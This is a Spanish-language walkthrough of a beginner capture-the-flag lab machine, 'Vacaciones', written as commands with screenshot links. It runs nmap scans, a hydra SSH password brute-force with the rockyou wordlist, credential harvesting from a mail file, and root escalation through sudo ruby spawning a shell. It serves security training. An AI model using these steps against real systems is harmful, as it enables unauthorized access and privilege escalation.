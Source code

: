 Maquina: Vacaciones
Autor: Romabri
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

![Screenshot 2024-11-08 190145](https://github.com/user-attachments/assets/19f5d6e5-e987-4be9-b8bb-7a39fd4d2fed)

sudo nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

![Screenshot 2024-11-08 190641](https://github.com/user-attachments/assets/391e44bf-ebf5-4b96-850f-37ec520bb040)

sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

![Screenshot 2024-11-08 190513](https://github.com/user-attachments/assets/2f080d1c-4f14-4eaf-a95c-80116a1518f5)

miramos la web
https://172.17.0.2

![Screenshot 2024-11-08 191601](https://github.com/user-attachments/assets/c758f9f6-f4f3-4ca3-b64e-564f343916a0)

miramos el codigo fuente y obtenemos 2 usuarios que podemos explotar

![Screenshot 2024-11-08 191624](https://github.com/user-attachments/assets/a14a09ef-e3c6-4ca8-b206-3177be5bffee)

sudo hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
obtenemos password de camilo

![Screenshot 2024-11-08 190858](https://github.com/user-attachments/assets/fb4bd662-89c2-4751-b35a-439cdce62a01)

ssh camilo@172.17.0.2

![Screenshot 2024-11-08 190958](https://github.com/user-attachments/assets/6730071b-f16b-4e3a-afca-2118360a0929)

sudo -l
vemos que camilo no tiene permisos

![Screenshot 2024-11-08 191131](https://github.com/user-attachments/assets/ec62cdd9-11e7-422a-a680-ec3605ca9c83)

buscamos el correo que nos ponia en la web
/var/mail$ cd camilo
ls
cat correo.txt

y descubrimos las credenciales del otro usuario

![Screenshot 2024-11-08 191144](https://github.com/user-attachments/assets/003190ed-4b69-4afb-afb9-14a6d74b2935)

accedemos a juan por ssh
ssh juan@172.17.0.2

![Screenshot 2024-11-08 191218](https://github.com/user-attachments/assets/79bffcdd-c74f-4a83-9a3e-fa67dd5f328f)

sudo -l
descubrimos que podemos ejecutar ruby como usuario root
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami

![Screenshot 2024-11-08 191256](https://github.com/user-attachments/assets/7ad92b01-02fd-40d0-8f7b-1e405099b78f)
